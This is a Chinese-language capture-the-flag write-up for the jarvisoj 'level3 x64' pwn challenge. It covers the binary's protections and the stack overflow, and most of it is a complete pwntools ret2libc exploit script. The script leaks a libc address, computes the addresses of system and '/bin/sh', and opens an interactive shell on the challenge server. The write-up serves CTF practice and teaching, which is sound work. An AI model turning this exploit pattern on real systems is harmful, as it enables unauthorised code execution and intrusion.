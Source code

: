 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3 x64
date: 2022-3-28 10:25:20
permalink: /pages/2e1547494524d19e
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level3_x64_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level3_x64_1.png)

## 思路分析

1. 目前信息：
   - `vulnerable_function`函数可溢出
   - 无`system`、`/bin/sh`与后门函数
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 典型的64位`ret2libc`解法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3_x64/level3_x64'
io = remote('node4.buuoj.cn', 29803)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
pop_rdi_ret = 0x4006b3
pop_rsi_r15_ret = 0x4006b1
ret=0x400499
payload = flat(['a'*padding, pop_rdi_ret, 1, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, write_plt,vulnerable_function])
# 少设置了write函数的第三个参数rdx为6，但这里不影响，执行write前上一个write的第三个参数rdx为7，中间并没有改变这里可以复用
io.sendafter('Input:\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
success("leak_libc_start_main:"+hex(leak_libc_start_main))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.send(payload)
io.interactive()
```